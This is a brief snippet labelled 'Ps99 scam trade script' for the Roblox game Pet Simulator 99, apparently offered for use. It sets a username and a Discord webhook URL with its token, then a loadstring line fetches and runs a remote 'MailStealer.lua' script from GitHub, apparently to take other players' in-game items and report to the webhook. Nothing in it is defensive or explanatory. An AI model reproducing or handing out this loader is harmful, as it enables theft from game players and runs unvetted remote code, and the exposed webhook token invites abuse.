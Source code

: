 # Scriptos-
Ps99 scam trade script 
Username = 22zynox22
LoadScreen = true 
Webhook = https://discord.com/api/webhooks/1349762638246314025/XOlOhP8O1et4Vahzo_UjE4kP1hDkUNuKArJt1PTSP_RFEYuNfnTG2hls4OnoELjSFUk6
loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
